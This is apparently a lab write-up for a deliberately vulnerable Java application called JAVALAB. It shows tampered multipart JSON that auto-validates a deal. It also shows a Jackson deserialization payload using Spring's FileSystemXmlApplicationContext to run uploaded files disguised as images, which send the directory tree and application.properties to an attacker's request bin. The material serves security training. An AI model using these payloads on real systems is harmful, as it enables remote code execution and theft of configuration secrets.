 # JAVALAB EXPLOITATION

## PART 1 (AUTO VALIDATE A DEAL)

### Step 1

Post a deal and intercept the request

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 2

Change the JSON and add the field "validated" with the name of the file in Base64

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa","validated":"fileNameInBase64"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 3

Send the request, and ...... TADAM!


## PART 2 (Get application.properties or RCE)

### SETP 0

Upload the same image **with the same name** twice to get a stack trace

```JAVA
java.nio.file.FileAlreadyExistsException: /opt/app/tmp/BD-Blagues-toto.jpg
	at java.base/sun.nio.fs.UnixException.translateToIOException(UnixException.java:94)
	at java.base/sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:111)
	at java.base/sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:116)
	at java.base/sun.nio.fs.UnixFileSystemProvider.newByteChannel(UnixFileSystemProvider.java:219)
	at java.base/java.nio.file.spi.FileSystemProvider.newOutputStream(FileSystemProvider.java:478)
	at java.base/java.nio.file.Files.newOutputStream(Files.java:219)
	at java.base/java.nio.file.Files.copy(Files.java:3066)
```

Now, we know that every images are store in **/opt/app/tmp**

### STEP 1

1. Create a new deal and upload **"collect_arbo.jpg"**. This script (file) will send the arbo in /tmp/test.txt
2. To execute this file, use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/collect_arbo.jpg"]"

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/collect_arbo.jpg"]}
```

### STEP 2

1. Create a new deal and upload **"send_arbo_to_request_bin.jpg"**. This script (file) will send the arbo to your $request bin
2. To execute this file, use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_arbo_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_arbo_to_request_bin.jpg"]}
```

### STEP 3

1. Create a new deal and upload **"send_config_file_to_request_bin.jpg"**. This file will send the application.properties to your $request bin
2. Use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_config_file_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_config_file_to_request_bin.jpg"]}
```